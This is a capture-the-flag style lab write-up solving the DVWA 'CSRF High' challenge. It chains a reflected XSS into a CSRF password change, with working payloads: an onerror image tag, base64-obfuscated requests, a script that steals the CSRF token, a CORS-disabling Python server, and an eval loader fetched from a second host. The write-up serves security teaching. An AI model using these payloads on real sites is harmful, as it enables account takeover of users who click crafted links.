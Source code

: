 #+TITLE: DVWA - CSRF High
#+AUTHOR: Leonardo Tamiano

* Description
  If we now try the previous URL, this does not work anymore, because

  1. We need another exploit for obtaining a reflective XSS on the
     high security level

  2. The password change endpoint is protected with a CSRF token.

* Solution
  
  To fix the first problem, we realize that for solving the high
  reflective XSS level we need the following payload

  #+begin_src html
<img src='#' onerror=alert(1) />
  #+end_src

  Even like this, if we just put the previous payload,

  #+begin_src html
<Script> var xmlHttp = new XMLHttpRequest(); var url = "http://evil/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change"; xmlHttp.open("GET", url, false); xmlHttp.send(null); </Script>
  #+end_src

  which has to be base64d and decoded with the ~atob~ function otherwise
  we get blocked, it won't work because of the CSRF code.

  #+begin_src html
<img src='#' onerror="var xmlHttp = new XMLHttpRequest(); xmlHttp.open('GET', atob('aHR0cDovL2V2aWwvdnVsbmVyYWJpbGl0aWVzL2NzcmYvP3Bhc3N3b3JkX25ldz1uZXdwYXNzJnBhc3N3b3JkX2NvbmY9bmV3cGFzcyZDaGFuZ2U9Q2hhbmdl'), false); xmlHttp.send(null);" />
  #+end_src

  The idea then is to first do a GET request, extract the CSRF code,
  and then send it in the URL. In particular, we want to create the
  following URL

  #+begin_example
GET /vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change&user_token=6bed618fc0eaf44857bfa115c4c61a79
  #+end_example

  where ~user_token~ was obtained from a previous GET request to CSRF
  change password page. To create such URL we first experiment with JS
  code that is able to extract the ~user_token~ from the webpage in
  order to craft a valid GET request for changing the password of the
  user with a custom password. The following JS code does the job.

  #+begin_src javascript
var newpass = "test"
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://evil/vulnerabilities/csrf/', false);
xhr.onload = function() {
    var doc = new DOMParser().parseFromString(this.responseText, "text/xml");
    var csrf = doc.getElementsByName("user_token")[0].getAttribute("value");
    var xhr2 = new XMLHttpRequest();    
    xhr2.open('GET', `http://evil/vulnerabilities/csrf/?password_new=${newpass}&password_conf=${newpass}&Change=Change&user_token=${csrf}`, false);
    xhr2.send(null);
};
xhr.send(null);
  #+end_src

  We save this payload onto a file called ~high.js~.

  Now we need to find a way to execute this JS payload onto the victim
  browser. To avoid the block of the hard challenge of the reflected
  XSS, the idea is to write a small loader that loads a much bigger
  javascript file and executes it with *eval*. We can load this file by
  creating a malicious server which *disables CORS checks*. The code for
  such server is shown below

  #+begin_src python
#!/usr/bin/env python3

from http.server import HTTPServer, SimpleHTTPRequestHandler, test
import sys

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def end_headers (self):
        self.send_header('Access-Control-Allow-Origin', '*')
        SimpleHTTPRequestHandler.end_headers(self)

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer, port=int(sys.argv[1]) if len(sys.argv) > 1 else 8000)
  #+end_src

  We save that in ~high-cors-server.py~ and then execute it as follows

  #+begin_src sh
python3 high-cors-server.py
  #+end_src

  Once we have that running, we can use the following payload on the
  high reflected XSS challenge page of DVWA

  #+begin_src html
<img src='#' onerror="var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://localhost:8000/high.js', false); xhr.onload = function () {eval(this[atob('cmVzcG9uc2VUZXh0')])}; xhr.send(null); " />
  #+end_src

  This payload is encoded into the following GET request.

  #+begin_example
http://evil/vulnerabilities/xss_r/?name=%3Cimg+src%3D%27%23%27+onerror%3D%22var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27GET%27%2C+%27http%3A%2F%2Flocalhost%3A8000%2Fhigh.js%27%2C+false%29%3B+xhr.onload+%3D+function+%28%29+%7Beval%28this%5Batob%28%27cmVzcG9uc2VUZXh0%27%29%5D%29%7D%3B+xhr.send%28null%29%3B+%22+%2F%3E
  #+end_example

  by changing the ~newpass~ of the ~high.js~ script, we will control the
  password of the authenticated user who clicks on the previous
  link. In particular, when the user clicks on the link, the following
  things will happen:

  - The reflective XSS on the DVWA page is triggered, executing the
    malicious js within the victim browser.

  - The malicious js does a GET to the endpoint
    http://localhost:8000/high.js and performs an ~eval~ on the obtained
    text from the server.

  - The javascript code loaded performs two GETs. One to obtian the
    CSRF code from the DVWA change password page, and the second to
    set a new password using the previous CSRF token.

  - As soon as the second GET hits the server, the password of the
    user is changed by the server.

* References
  For the making of this solution the following resource were used:

  - https://stackoverflow.com/questions/21956683/enable-access-control-on-simple-http-server
  - https://labs.withsecure.com/publications/getting-real-with-xss
